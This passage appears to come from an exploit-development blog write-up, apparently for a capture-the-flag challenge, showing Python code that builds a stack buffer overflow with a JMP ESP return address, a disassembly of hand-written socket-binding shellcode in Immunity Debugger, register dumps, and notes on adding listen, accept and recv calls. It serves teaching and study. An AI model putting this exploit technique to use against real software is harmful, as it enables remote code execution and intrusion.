command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
{% endcodeblock %}

And with this script invoked, we see the following shellcode in Immunity:

{% codeblock ASM listing %}
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
00B5FFD5   89C7             MOV EDI,EAX
00B5FFD7   89D9             MOV ECX,EBX
00B5FFD9   B5 74            MOV CH,74
00B5FFDB   FE41 03          INC BYTE PTR DS:[ECX+3]
00B5FFDE   B3 54            MOV BL,54
00B5FFE0   6A 10            PUSH 10
00B5FFE2   51               PUSH ECX
00B5FFE3   50               PUSH EAX
00B5FFE4   FFD3             CALL EBX
{% endcodeblock %}

And at the end of this run the registers look like this:

{% codeblock Register contents %}
EAX 00000000
ECX 0024CF98
EDX 0024C890
EBX 00403454 <JMP.&WS2_32.bind>
ESP 00B5FF44
EBP 42424242
ESI 42424242
EDI 00000084
EIP 00B5FFE7
O 0  LastErr ERROR_SUCCESS (00000000)
{% endcodeblock %}

This shows that `bind` returned `0` (which is good) and that the `LastErr` is success. All is well so far! All we need now are `listen`, `accept` and `recv`. `listen` is a really simple call which takes the socket handle and a backlog counter. So let's move `EBX` to point to this function first, then set up the stack before doing the call:


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux